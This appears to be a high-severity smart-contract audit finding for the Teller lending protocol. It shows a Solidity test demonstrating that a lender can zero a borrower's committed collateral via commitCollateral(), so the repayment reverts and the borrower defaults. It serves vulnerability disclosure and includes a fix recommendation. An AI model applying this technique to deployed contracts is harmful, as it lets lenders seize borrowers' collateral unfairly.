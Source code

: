 0xbepresent

high

# Malicious lender can block borrower repayment causing the borrower default

## Summary

The malicious lender can block the borrower repayment causing the borrower default.

## Vulnerability Detail

Once the borrow is accepted and the collateral is deposited to the escrow contract, the lender can call the [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) function modifying the bid's collateral availabe to zero causing that the borrower could not repay the full loan because the withdraw function will be reverted.

I created a test where the borrower repay is reverted because the malicious lender modify the available collateral via the commitCollateral() function. Test steps:

1. Create the collateral bid and lender accept it.
2. Assert the escrow has the borrower's collateral.
3. The malicious lender commits Zero amount to the borrower's collateral via the [collateralManager.commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L138) function
4. The borrower's repayment is reverted by an ```Withdraw amount cannot be zero``` error. The borrower try to repay the loan but is unable to paid because the collateral amount was set by malicious lender to zero so the transaction is reverted

```solidity
File: TellerV2_Test.sol
399:     function test_MaliciousLenderCanBlockBorrowerRepayments() public {
400:         // The malicious lender can block the borrower repayments causing the borrower to default.
401:         // 1. Create the collateral bid and lender accept it
402:         // 2. Assert the escrow has the borrower's collateral
403:         // 3. The malicious lender commits Zero amount to the borrower's collateral via the collateralManager.commitCollateral() function
404:         // 4. The borrower's repayment is reverted by an "Withdraw amount cannot be zero" error.
405:         //    The borrower try to repay the loan but is unable to paid because the collateral amount
406:         //    was set by malicious lender to zero so the transaction is reverted
407:         //
408:         //
409:         // 1. Create the collateral bid and lender accept it
410:         //
411:         // Submit bid as borrower
412:         uint256 bidId = submitCollateralBid();
413:         // Accept bid as lender
414:         acceptBid(bidId);
415:         //
416:         // 2. Assert the escrow has the borrower's collateral
417:         //
418:         // Get newly created escrow and test the creates escrow has the same bidId and collateral stored
419:         address escrowAddress = collateralManager._escrows(bidId);
420:         CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);
421:         uint256 storedBidId = escrow.getBid();
422:         assertEq(bidId, storedBidId, "Collateral escrow was not created");
423:         uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
424:         assertEq(collateralAmount, escrowBalance, "Collateral was not stored");
425:         //
426:         // 3. The malicious lender commits Zero amount to the borrower's colletaral via the collateralManager.commitCollateral() function
427:         //
428:         Collateral memory maliciousInfo;
429:         maliciousInfo._amount = 0;
430:         maliciousInfo._tokenId = 0;
431:         maliciousInfo._collateralType = CollateralType.ERC20;
432:         maliciousInfo._collateralAddress = address(wethMock);
433:         collateralManager.commitCollateral(bidId, maliciousInfo);
434:         //
435:         // 4. The borrower's repayment is reverted by an "Withdraw amount cannot be zero" error.
436:         //    The borrower try to repay the loan but is unable to paid because the collateral amount
437:         //    was set by malicious lender to zero so the transaction is reverted
438:         //
439:         Payment memory amountOwed = tellerV2.calculateAmountOwed(bidId);
440:         borrower.addAllowance(
441:             address(daiMock),
442:             address(tellerV2),
443:             amountOwed.principal + amountOwed.interest
444:         );
445:         vm.expectRevert(bytes("Withdraw amount cannot be zero"));
446:         borrower.repayLoanFull(bidId);
447:     }
```

## Impact

The borrower can not repaid his loan causing the borrower default and the lender can claim the collateral.

## Code Snippet

Here the [commitCollateral()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117) function the collateral amount can be modified by malicious lender to zero amount in the collateral addresses.

```solidity
File: CollateralManager.sol
117:     function commitCollateral(
118:         uint256 _bidId,
119:         Collateral[] calldata _collateralInfo
120:     ) public returns (bool validation_) {
121:         address borrower = tellerV2.getLoanBorrower(_bidId);
122:         (validation_, ) = checkBalances(borrower, _collateralInfo);
123: 
124:         if (validation_) {
125:             for (uint256 i; i < _collateralInfo.length; i++) {
126:                 Collateral memory info = _collateralInfo[i];
127:                 _commitCollateral(_bidId, info);
128:             }
129:         }
130:     }
```

Then, when the execution path tries to [withdraw()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L250) the collateral from the escrow contract and the transaction will be [reverted by amount zero error](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/escrow/CollateralEscrowV1.sol#L89) in the code line 89.

```solidity
File: CollateralEscrowV1.sol
84:     function withdraw(
85:         address _collateralAddress,
86:         uint256 _amount,
87:         address _recipient
88:     ) external virtual onlyOwner {
89:         require(_amount > 0, "Withdraw amount cannot be zero");
```

## Tool used

Manual review

## Recommendation

Since the liquidations criteria is based on the expiration cycles, the code must not allow modifications to the collateral after the bid was accepted.